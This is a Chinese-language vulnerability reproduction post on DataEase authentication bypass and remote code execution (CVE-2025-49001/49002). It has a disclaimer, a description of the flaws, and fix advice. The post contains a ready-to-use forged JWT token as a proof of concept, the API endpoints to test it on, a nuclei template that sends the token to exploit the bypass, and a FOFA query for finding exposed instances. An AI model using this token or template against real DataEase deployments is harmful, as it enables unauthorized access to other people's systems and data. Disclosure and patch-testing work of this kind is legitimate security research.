 #  【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）  
PokerSec  PokerSec   2025-06-09 01:01  
  
**先关注，不迷路**  
> 命运总是会安排一些根本不合适的人相遇，目的根本不是让他们与对方相伴，而是让每个人更了解自己，知道自己是什么样的，下一次该去遇见什么样的人    ——《我想要两颗西柚》  
> i want to see you  
  
  
****## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
DataEase 是一款开源的数据分析平台，提供丰富的数据可视化和分析功能，帮助用户轻松地进行数据探索和决策支持，CVE-2025-49001 是由于JWT校验机制错误导致攻击者可伪造JWT令牌绕过身份验证流程，CVE-2025-49002 是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数，可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行，威胁用户数据和系统的安全。  
## 影响版本  
  
DataEase <= 2.10.8  
## 漏洞复现  
  
CVE-2025-49001   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6WKf8Acc3ytA5FcBYFCXJhTVNcuqOKVUOX7lGjbnCTOp7TDOFd3o3Qw/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```  
  
  
可以通过请求以下接口进行验证，无漏洞则会返回500或401  
```
/de2api/license/version
/de2api/user/info
/de2api/login/refresh
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U62bolhTaMuzCelQg0aHQmoSwL62qoIIjb5wBx6jIkbYyeDbeXfl44eA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6uwicLKZEXzruTicDicrTc9iaEtwia0x9Gl02pCPNUuDLXIAxdK5zINdI5Ag/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
CVE-2025-49001   
  
通过 JWT 解密了 token，获取了 uid 和 oid 的值，并没有使用当前秘钥来验证 token 的合法性，可以使用任意secret来伪造一个符合以下格式的JWT token  
```
{
  "uid": 1,
  "oid": 1
}
```  
  
  
具体分析见原文  
```
https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r
```  
  
  
CVE-2025-49002  
```
https://github.com/dataease/dataease/security/advisories/GHSA-999m-jv2p-5h34
```  
  
## nuclei脚本  
```
id: dataease-cve-2025-49001

info:
  name: dataease-cve-2025-49001-bypass
  author: PokerSec
  severity: high
  metadata:
    fofa-search: title="DataEase"

requests:
  - raw:
      - |-
        GET /de2api/user/info HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        out_auth_platform: default
        X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":"1"'
          - 'oid'
          - 'name'
        condition: and
      - type: status
        status:
          - 200
```  
##   
## 修复意见  
  
更新至最新安全版本，目前官方已有可更新版本DataEase >= 2.10.10  
  
官方补丁下载地址：  
  
https://github.com/dataease/dataease/releases/tag/v2.10.10  
  
https://dataease.io/  
  
  
  
如有侵权，请及时联系删除。  
  
  
